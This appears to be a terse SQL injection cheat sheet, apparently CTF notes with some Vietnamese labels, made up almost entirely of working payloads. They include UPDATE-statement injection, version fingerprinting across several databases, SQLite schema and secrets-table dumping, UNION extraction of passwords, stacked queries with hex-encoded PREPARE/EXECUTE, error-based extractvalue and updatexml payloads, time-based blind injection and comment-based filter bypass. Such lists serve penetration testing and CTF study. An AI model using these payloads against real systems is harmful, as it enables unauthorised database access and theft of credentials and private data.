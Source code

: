 ```UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>```
UPDATE usertable SET nickName='capybara',email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
UPDATE usertable SET nickName='',nickName='database()', email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```
SQLite

```',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='```

```',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='```

```',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='```

```' UNION SELECT 1,group_concat(password) FROM users-- -```



Use preparestatement to execute query 

"select flag from \`1919810931114514\`" => 73656c65637420666c61672066726f6d20603139313938313039333131313435313460

```1'; prepare abc from 73656c65637420666c61672066726f6d20603139313938313039333131313435313460; execute abc```


Sử dụng extractvalue: -1' and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata)))-- -

Time base: '1)) union select 1,2,elt((select substr('abc',1,1) from information_schema.schemata limit 0,1)='a',sleep(5))-- -

Sử dụng updateXML: 1',updatexml(1,concat(0x7e,(select database()),0x7e),1))-- -

select name from demo where name = 'dasd' union values(char(97)||char(100)||char(109)||char(105)||char(110))

1/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))


